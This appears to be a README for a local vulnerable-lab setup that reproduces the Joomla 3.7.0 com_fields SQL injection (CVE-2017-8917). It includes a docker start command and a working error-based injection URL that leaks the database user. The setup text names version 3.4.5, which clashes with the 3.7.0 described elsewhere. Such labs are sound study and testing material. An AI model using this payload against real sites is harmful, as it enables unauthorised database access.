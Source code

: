 # Joomla 3.7.0 com_fields SQL Injection Vulnerability (CVE-2017-8917)

[中文版本(Chinese version)](README.zh-cn.md)

Joomla is a free and open-source content management system (CMS) that allows users to build websites and online applications. It was first released in 2005 and has since become one of the most popular CMS platforms, powering millions of websites around the world.

An SQL injection vulnerability is caused by a new component, com_fields, which was introduced in version 3.7.

References:

- <https://developer.joomla.org/security-centre/692-20170501-core-sql-injection.html>
- <https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html>

## Vulnerable environment

Executing following command to start a Joomla 3.4.5:

```
docker compose up -d
```

After the server is started, you can see the home page of it at `http://your-ip:8080`.

## Exploit

Visit following link directly to reproduce the SQL injection attack:

```
http://your-ip:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml(0x23,concat(1,user()),1)
```

![](1.png)
